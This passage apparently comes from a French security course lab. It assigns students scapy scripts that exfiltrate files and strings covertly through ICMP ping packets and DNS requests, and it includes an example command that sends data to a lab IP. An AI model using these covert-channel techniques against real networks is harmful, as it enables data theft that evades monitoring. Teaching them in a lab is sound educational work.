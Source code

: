 - **`icmp_exf_send_b2.py`** et **`icmp_exf_receive_b2.py`**
- envoyez un fichier avec des ping
- faites simple pour les tests : créez un fichier de quelque Ko tout au plus (peu importe le format justement, on s'en fout)
- genre une fois que ça marche, on doit pouvoir envoyer des JPEG avec des ping
- c'est la même idée que la string : fragmenter le JPEG en p'tits morceaux, envoyer, reconstituer de l'autre côté

# III. Exfiltration DNS

**DNS est donc un protocole qu'on peut aussi détourner de son utilisation première pour faire de l'exfiltration.**

Vu qu'on va envoyer des requêtes DNS pour exfiltrer les données il faut dans l'idéal un service qui tourne pour les recevoir (port 53 UDP), et sur cette machine qui fait tourner le service, un ptit programme `scapy` qui réceptionne et traite tout ce qui est reçu. Les logs du service ça peut faire l'affaire aussi !

> Bon ! Vous vous me la faites tout seul celle-ci ? Quelques recherches sur internet, y'a toute la doc du monde sur ça.

🌞 **`dns_exfiltration_send.py`**

- envoie des données passées en argument à l'IP passée en argument
- utilise le protocole DNS pour exfiltrer lesdites données
- une string de 20 caractères doit pouvoir être exfiltrée

On doit pouvoir faire :

```bash
$ dns_exfiltration_send.py 10.1.1.1 toto
```

⭐ **Bonus 3 mid : `dns_exfiltration_send.py`**

- en dernier bonus : mettez en place le code qui reçoit votre exfiltration DNS
- il n'affiche que les strings cachées dans les requêtes reçues

